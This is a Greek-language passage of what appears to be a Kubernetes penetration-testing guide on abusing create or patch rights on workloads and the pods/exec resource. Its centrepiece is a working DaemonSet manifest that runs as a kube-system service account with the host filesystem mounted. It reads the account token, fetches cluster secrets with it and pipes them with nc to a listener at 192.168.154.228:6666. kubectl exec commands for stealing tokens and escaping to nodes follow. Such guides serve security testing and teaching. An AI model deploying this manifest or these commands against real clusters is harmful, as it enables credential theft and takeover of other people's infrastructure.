 ### **Create/Patch Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs**

Είναι δυνατόν να καταχραστείτε αυτές τις άδειες για να **δημιουργήσετε ένα νέο pod** και να αποκτήσετε δικαιώματα όπως στο προηγούμενο παράδειγμα.

Το παρακάτω yaml **δημιουργεί ένα daemonset και εξάγει το token του SA** μέσα στο pod:
```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: kube-system
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args:
[
"-c",
'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000',
]
volumeMounts:
- mountPath: /root
name: mount-node-root
volumes:
- name: mount-node-root
hostPath:
path: /
```
### **Pods Exec**

**`pods/exec`** είναι ένας πόρος στο kubernetes που χρησιμοποιείται για **την εκτέλεση εντολών σε ένα shell μέσα σε ένα pod**. Αυτό επιτρέπει να **εκτελούνται εντολές μέσα στα containers ή να αποκτάται ένα shell μέσα**.

Επομένως, είναι δυνατόν να **μπείτε μέσα σε ένα pod και να κλέψετε το token του SA**, ή να εισέλθετε σε ένα προνομιούχο pod, να διαφύγετε στον κόμβο και να κλέψετε όλα τα tokens των pods στον κόμβο και να (κατα)χρηστείτε τον κόμβο:
```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```
> [!NOTE]
> Από προεπιλογή, η εντολή εκτελείται στο πρώτο κοντέινερ του pod. Πάρτε **όλα τα pods σε ένα κοντέινερ** με `kubectl get pods <pod_name> -o jsonpath='{.spec.containers[*].name}'` και στη συνέχεια **υποδείξτε το κοντέινερ** όπου θέλετε να το εκτελέσετε με `kubectl exec -it <pod_name> -c <container_name> -- sh`
